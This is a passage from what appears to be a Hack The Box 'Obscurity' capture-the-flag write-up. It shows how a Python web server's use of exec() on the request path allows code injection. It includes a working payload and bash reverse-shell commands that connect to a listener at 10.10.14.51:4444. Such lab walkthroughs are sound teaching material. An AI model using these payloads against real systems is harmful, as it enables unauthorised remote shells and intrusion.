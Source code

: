 The `exec` function is just like an `eval`, it'll execute whatever python code has been passed to it. Here's documentation snippet:

```
exec(source, globals=None, locals=None, /)
    Execute the given source in the context of globals and locals.
    
    The source may be a string representing one or more Python statements
    or a code object as returned by compile().
    The globals must be a dictionary and locals can be any mapping,
    defaulting to the current globals and locals.
    If only globals is given, locals defaults to it.
```

So what the program does here is take the path in the GET request, formats it and stores the result in the `output` variable. Here's what happen if I test that part of the code manually in the python interactive interpreter.

```
>>> exec("output = 'Document: {}'".format("/test"))
>>> output
'Document: /test'
```

That `output` variable is not even used in the program and has been placed here just to introduce that command injection vulnerability. What I can do here is store an empty value in the `output` variable but add additional code after the `output` variable assignment.

I'll test this locally first in my python shell, first I'll validate that I can execute `whoami`:

```
>>> exec("output = 'Document: {}'".format("';__import__(\"os\").system(\"whoami\")#'"))
root
```

Ok so that works. Next I'll spawn a reverse shell with:

```
>>> exec("output = 'Document: {}'".format("';__import__(\"os\").system(\"bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'\")#'"))

root@beholder:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 38520
```

Awesome, next destination: getting a shell on the target box.

I'll use the `';__import__("os").system("bash -c 'bash -i >& /dev/tcp/10.10.14.51/4444 0>&1'")#` payload and URL-encode all the characters so I don't have any problems with my curl command. The exec/eval works and I get a shell.

![](/assets/images/htb-writeup-obscurity/shell.png)

## Cracking robert's password

I have access to robert's home directory but I can't read the flag so I have to get access to his account next.
